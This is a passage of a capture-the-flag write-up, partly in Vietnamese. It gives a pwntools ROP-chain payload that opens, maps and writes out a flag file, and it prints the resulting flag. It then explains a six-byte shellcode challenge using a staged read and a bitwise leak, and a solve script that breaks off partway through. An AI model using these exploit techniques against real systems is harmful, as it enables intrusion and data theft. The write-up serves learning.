 ```py
payload = b'A'*24 // fill buff and saved_rbp
payload += flat(pop_rax, 2, pop_rdi, base+0xf00, pop_rsi, 0, pop_rdx, 0,\
                syscall_ret, pop_rax, 9, pop_rdi, 0x13370000, pop_rsi, 0x1000,\ # open
                pop_rdx, 7, pop_r10, 2, pop_r8, 3, pop_r9, 0, syscall_ret,\  # mmap
                pop_rax, 1, pop_rdi, 1, pop_rsi, 0x13370000, pop_rdx, 0x40, syscall_ret) # write

io.sendline(payload)
io.sendline(b'4')
io.interactive()

```

# flag: SEE{m4st3r_0f_mm4p_5ee2a719bc6a8209e7295d4095ff5181}

* 3. Shellcode As A Service:

    `Description: Hey, welcome to my new SaaS platform! As part of our early access program, we are offering the service for FREE. Our generous free tier gives you a whole SIX BYTES of shellcode to run on our server. What are you waiting for? Sign up now!`

>> Như chương trình đã mô tả, chúng ta phải viết shellcode sẽ được đưa vào để thực thi.
Được cấp cho 6 bytes và có cho phép 2 syscall open, read, ngăn chặn chúng ta in flag ra màn hình. Ý tưởng là chúng ta sẽ viết 1 vòng lặp để kiểm tra từng bit của flag, nếu bit bằng 1 sẽ cho vào 1 vòng lặp, còn ngược lại thì bit bằng 0.
Một cách khác là ta sẽ đọc từng bytes của flag rồi kiểm tra.

Ngay lúc này, thanh ghi rdi đang có giá trị bằng 0, rdx thì là địa chỉ nơi mà shellcode chúng ta ghi nên chúng ta chỉ cần lấy giá trị đó là đủ để ghi tiếp (second stage write).


> Solve scripts:

```py
from pwn import *
import struct

#!/usr/bin/env python3

from pwn import *
from ctypes import *
import time
import sys

local = 0
debug = 0

context.arch = 'amd64'
# context.aslr = False
# context.log_level = 'debug'
# context.terminal = ['tmux', 'splitw', '-h', '-F' '#{pane_pid}', '-P']
# context.timeout = 2

def riconn():
	global local
	global debug

	for arg in sys.argv[1:]:
		if arg in ('-l', '--local'):
			local = 1
		if arg in ('-d', '--debug'):
			debug = 1

	if local:
		io = process('./chall')
```